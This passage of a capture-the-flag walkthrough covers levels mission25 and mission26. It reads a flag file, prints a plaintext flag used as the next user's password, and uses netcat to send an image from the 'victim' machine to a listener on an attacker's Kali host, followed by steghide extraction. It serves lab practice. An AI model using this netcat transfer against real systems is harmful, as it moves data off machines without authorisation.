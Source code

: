 **Victim(mission25)**

```
cd /home/mission25
echo "$(</home/mission25/flag.txt )"

exit
su mission26
Password: mission26{cb6ce977c16c57f509e9f8462a120f00}
```

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(mission26)**

```
cd /home/mission26
ls
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -l -p 1234 > flag.jpg
```

**Victim(mission26)**

```
nc -w 3 $KALI 1234 < flag.jpg
```

**Kali**

```
nc -l -p 1234 > flag.jpg
steghide extract -sf flag.jpg 
```
